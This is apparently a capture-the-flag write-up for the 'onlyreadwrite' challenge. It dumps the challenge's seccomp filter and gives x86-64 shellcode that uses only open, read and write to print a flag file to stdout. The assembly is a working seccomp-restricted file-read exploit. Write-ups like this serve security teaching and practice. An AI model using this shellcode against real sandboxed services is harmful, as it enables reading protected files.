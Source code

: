 # onlyreadwrite

This challenge reads shellcode from stdin and executes it. The problem is that the syscalls that we can use are limited.

## What syscalls can we use?

To find out what syscalls we can use there is the following command:

```bash
seccomp-tools dump ./onlyreadwrite
```

Some details about the tool can be found [here](https://github.com/david942j/seccomp-tools).

The output of the command is the following:

```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

Then only open, read and write are allowed (and some other syscalls that we don't need).

## The shellcode

Now that we know that we can use just a few syscalls, we can start writing the shellcode.

The idea was to use shellcraft to generate the shellcode for the open-read-write sequence.

```python
shellcode = pwnlib.shellcraft.amd64.linux.open('./flag', 0, 0)
shellcode += pwnlib.shellcraft.amd64.linux.read(FD_READ, 'rsp', 100)
shellcode += pwnlib.shellcraft.amd64.linux.write(FD_WRITE = 1, 'rsp', 100)
```

The problem is that (afaik) there is no way to get the file descriptor from the open syscall and use it as argument for the read.

So i generated the assembly from shellcraft and slightly modified it to get the file descriptor in RDI (where the read syscall expects it).

```asm
; push './flag' on the stack
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax

; call open(RDI -> './flag', 0, 0)
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
push SYS_open /* 2 */
pop rax /* -> 2 */
syscall

; call read(RDI -> RAX = fd of './flag', RSI = 'rsp', RDX = 0x64)
push rax
xor eax, eax /* SYS_read */
pop rdi ; -> fd  returned by open
push 0x64
pop rdx
mov rsi, rsp
syscall

; call write(fd=1 (stdout), RSI = 'rsp', RDX =0x64)
push 1
pop rdi
push 0x64
pop rdx
mov rsi, rsp
push SYS_write ; 1
pop rax
syscall
```

Basically it is opening the file, reading it on the stack and then writing it on stdout.

The complete exploit is in [script.py](script.py).
